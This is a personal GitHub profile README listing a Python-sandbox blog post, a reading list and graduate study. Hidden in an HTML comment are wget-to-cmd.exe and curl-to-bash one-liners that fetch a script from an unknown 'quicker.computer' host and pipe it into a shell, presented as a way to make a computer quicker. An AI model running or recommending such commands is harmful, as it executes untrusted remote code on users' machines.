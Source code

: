 ## Hi
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning/Projects
- 💻 Checkout my blog post: [python sandbox](https://twosixtech.com/hijacking-the-ast-to-safely-handle-untrusted-python/) 
- 💻 Personal Blog at dackjempsey.com currently it redirects to here.


### Current Reading list
- 📖 [Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881) 
- 📖 [Quantum Computing and Quantum Information](https://www.amazon.com/Quantum-Computation-Information-10th-Anniversary/dp/1107002176/ref=sr_1_1?crid=3K2FR2P6HUCV2&keywords=nielsen+quantum+computing&qid=1676434522&s=books&sprefix=nielson+quantum+computing%2Cstripbooks%2C65&sr=1-1&ufe=app_do%3Aamzn1.fos.006c50ae-5d4c-4777-9bc0-4513d670b6bc) 

### Currently getting my M.Eng ECE at Cornell Tech in NYC


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
